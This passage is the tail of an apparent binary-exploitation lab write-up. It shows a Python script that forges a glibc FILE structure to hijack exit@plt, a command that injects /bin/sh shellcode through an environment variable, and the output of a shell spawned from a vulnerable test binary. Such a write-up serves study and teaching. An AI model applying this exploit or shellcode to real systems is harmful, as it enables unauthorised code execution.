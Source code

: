 the shellcode is at `0xffffdf69` (0xffffdf5f + 10).  modification to the exploit script I can test it out:

```python
exit_plt = 0x8049958
shellcode_addr = 0xffffdf69
struct_chain = 0xf7faece0
struct_lock = 0x804a204
struct_vtable = 0xf7fac860

payload_fd = forge_FILE_struct(_IO_buf_base = exit_plt-3, \
        _IO_buf_end = exit_plt+4, \
        chain =struct_chain, \
        _lock = struct_lock, \
        vtable = struct_vtable)

payload = p32(shellcode_addr)
payload += payload_fd
payload += '\x00'*(260 - len(payload))
payload += p32((0xffffdbb8-80)+4) # forged FILE structure address


print(encrypt(payload))
```

```
student@ubuntu:~/Research/FILE_struct_exp$ ./invoke.sh -e SHELLCODE=$(python -c 'print "\x90"*15 + "\x31\xc0Ph//shh/bin\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0@\xcd\x80"') ./vuln abc $(python exploit.py)
abc : i
$ whoami
student
$ exit
```

Success!

[link-1]: https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/
[link-2]: https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique
[link-3]: https://blog.bushwhackers.ru/tokyo2019-printf/
[link-4]: http://docs.pwntools.com/en/stable/
